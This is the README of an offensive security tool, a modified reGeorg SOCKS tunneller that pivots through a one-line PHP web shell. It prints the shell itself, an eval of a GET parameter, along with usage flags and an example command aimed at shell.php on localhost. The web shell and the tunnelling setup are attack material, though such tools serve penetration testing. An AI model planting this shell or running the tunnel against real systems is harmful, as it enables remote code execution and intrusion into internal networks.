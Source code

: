 reGeorg for PHP Shell
=========

```                    _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg
```
willem@sensepost.com / [@\_w\_m\_\_]

sam@sensepost.com / [@trowalts]

etienne@sensepost.com / [@kamp_staaldraad]

github@zsxsoft.com / [@zsxsoft]


What's this?
----
A modified reGeorg for One-line PHP Shell like this:
```php
<?php eval($_GET['a']); ?>
```


Version
----

1.0

Dependencies
-----------

reGeorg requires Python 2.7 and the following modules:

* [urllib3] - HTTP library with thread-safe connection pooling, file post, and more.
 

Usage
--------------

```
$ reGeorgSocksProxy.py [-h] [-l] [-p] [-r] -u -k [-v] 

Socks server for reGeorg HTTP(s) tunneller

optional arguments:
  -h, --help           show this help message and exit
  -l , --listen-on     The default listening address
  -p , --listen-port   The default listening port
  -r , --read-buff     Local read buffer, max data to be sent per POST
  -u , --url           The url containing the tunnel script
  -k , --key           The GET paramter
  -v , --verbose       Verbose output[INFO|DEBUG]

Example
---------
```
$ python reGeorgSocksProxy.py -p 8080 -u http://127.0.0.1/shell.php -k a
```

License
----

MIT


[@\_w\_m\_\_]:http://twitter.com/_w_m__
[@trowalts]:http://twitter.com/trowalts
[@kamp_staaldraad]:http://twitter.com/kamp_staaldraad
[urllib3]:https://pypi.python.org/pypi/urllib3
[proxychains]:http://sourceforge.net/projects/proxychains/
